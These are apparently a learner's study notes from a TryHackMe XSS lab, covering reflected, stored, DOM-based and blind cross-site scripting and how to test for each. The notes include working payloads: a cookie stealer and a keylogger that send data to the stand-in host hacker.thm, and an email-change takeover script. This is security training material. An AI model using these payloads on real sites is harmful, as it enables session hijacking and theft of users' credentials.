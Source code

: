 ## What is it?
Where malicious JavaScript gets injected into a web application with the intention of being executed by other users
# XSS Payloads:
The payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do, the modification is the changes to the code we need to make it execute as every scenario is different
## Checking for XXS
Demonstrate that you can achieve XSS on a website by causing an alert box to pop up on the page with a string of text, for example:
```
<script>alert('1');</script>
```
### Session Stealing
Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
### **Key Logger:**
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
### Business Logic:
calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
```
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Now that the email address for the account has changed, the attacker may perform a reset password attack.
# Types of XSS
## Reflected XSS
Happens when user-supplied data in an HTTP request is included in the webpage source without any validation.
### Example:
A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the **error** parameter in the query string and is built directly into the page source.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/a5b0dbc4d2f1f69988f82f2c5d53f6ed.png)
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/7f90b73106d655b07874943f93533f7b.png)

Can be used per this scenario:
![[8e3bffe500771c03366de569c3565058.png]]
### **Potential Impact:**  
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.
### **How to test for Reflected XSS:**
You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)  

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected
## Stored XSS
The XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
### Example
A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/cc2566d297f7328d91bc8552f902210e.png)
### How to Test for Stored XSS:
You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:  

- Comments on a blog
- User profile information  
- Website Listings  

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 

Once you've found some data which is being stored in the web application,  you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected
## DOM Based XSS
### What is DOM?
DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below:
![[24a54ac532b5820bf0ffdddf00ab2247.png]]
### Exploiting the DOM
DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.
#### Example
The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.
### How to Test
DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**.

Look for `eval()` JavaScript method being used in source code.
## Blind XSS
Your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.
### Example
A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.
### How to Test:
you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more
